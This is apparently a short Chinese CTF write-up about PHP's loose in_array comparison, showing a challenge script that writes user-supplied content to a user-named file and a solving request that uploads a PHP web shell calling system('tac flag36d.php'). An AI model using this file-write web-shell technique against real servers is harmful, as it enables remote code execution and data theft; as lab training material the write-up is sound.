# 知识点
### in_array
[https://www.php.net/manual/zh/function.in-array.php](https://www.php.net/manual/zh/function.in-array.php)
```php
in_array(mixed $needle, array $haystack, bool $strict = false): bool
大海捞针，在大海（haystack）中搜索针（ needle），如果没有设置 strict 则使用宽松的比较
```
# 思路
```python
<?php

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```
```php
GET ?n=2.php
POST content=<?php system("tac flag36d.php") ?>   
```
![image.png](./images/20231017_2350162667.png)
